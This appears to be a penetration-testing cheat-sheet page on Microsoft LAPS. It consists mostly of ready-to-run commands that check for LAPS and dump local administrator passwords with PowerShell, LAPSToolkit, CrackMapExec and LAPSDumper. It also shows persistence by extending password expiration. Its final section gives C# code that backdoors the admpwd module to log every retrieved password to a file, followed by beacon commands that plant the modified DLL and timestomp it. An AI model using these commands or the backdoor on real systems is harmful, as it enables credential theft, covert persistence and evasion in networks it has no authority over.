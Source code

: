 ```yaml
---
description: Local Administrator Password Solution
---
```


# LAPS

* [https://adsecurity.org/?p=1790](https://adsecurity.org/?p=1790)




## Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PV3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PV3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```

Extract SAM with CME and compare admins' hashes:

```
$ for ip in `cat hosts.txt`; do cme smb $ip -u snovvcrash -p 'Passw0rd!' --sam 2>/dev/null | grep -av '(' | grep -ai -e admin -e админ; sleep 1; done
```




## Get Passwords



### PowerShell


#### ActiveDirectory

Query LDAP for AD computer objects with their passwords and its expiration date:

```
PS > $laps = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime -Server DC01 | ? {$_.'ms-Mcs-AdmPwd'} | select Name,ms-Mcs-AdmPwd,@{label="ExpDate";Expression={([datetime]::FromFileTime([convert]::ToInt64($_.'ms-Mcs-AdmPwdExpirationTime')))}}
PS > $laps | select -First 10
```

Check the name of enabled local administrators on a remote machine:

```
PS > Get-CimInstance -ComputerName SRV01 -ClassName Win32_Group -Filter "Name='Administrators'" | Get-CimAssociatedInstance -Association Win32_GroupUser | ? {$_.Disabled -eq $false} | fl
```

Change LAPS password (just zero the expiration time attribute):

```
PS > Get-ADComputer PC01 -Properties ms-MCS-AdmPwdExpirationTime| % {Set-ADComputer -Identity $_ -Replace @{"ms-MCS-AdmPwdExpirationTime" = "0"}}
```


#### Get-LAPSPasswords

* [https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/](https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/)
* [https://github.com/kfosaaen/Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)

```
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > Get-LAPSPasswords -DomainController 10.10.13.37 -Credential $cred | fl
```


#### LAPSToolkit

* [https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)
* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

Enumerate LAPS groups and permissions:

```
PS > $lapsGroups = Find-LAPSDelegatedGroups
PS > $lapsRights = Find-AdmPwdExtendedRights
```

Get passwords:

```
PS > Get-LAPSComputers
```



### CrackMapExec

* [https://github.com/T3KX/Crackmapexec-LAPS](https://github.com/T3KX/Crackmapexec-LAPS)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/laps.py)

```
$ cme ldap <DC_IP> -u snovvcrash -p 'Passw0rd!' -M laps
```



### LAPSDumper

* [https://github.com/n00py/LAPSDumper](https://github.com/n00py/LAPSDumper)

```
$ python laps.py -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python laps.py -d megacorp.local -l DC01.megacorp.local -u snovvcrash -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```




## Persistence

Increase the expiration time of a compromised computer object's `ms-mcs-admpwdexpirationtime` property value:

```
PV3 > Get-DomainObject -Identity SRV01 -Properties ms-mcs-admpwdexpirationtime
PV3 > Set-DomainObject -Identity SRV01 -Set @{"ms-mcs-admpwdexpirationtime"="<EPOCH>"}
```




## Backdoor

Recompile [admpwd](https://github.com/GreyCorbel/admpwd) having added some evil code [here](https://github.com/GreyCorbel/admpwd/blob/1461172b2002ce37e31c221f6532a8ce7de1a295/Main/AdmPwd.PS/Main.cs#L140):

```csharp
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
WriteObject(pi);
```

Replace the original `AdmPwd.PS.dll` assembly with a newly generated one and fix the timestamp:

```
beacon> cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
beacon> upload AdmPwd.PS.dll
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
```
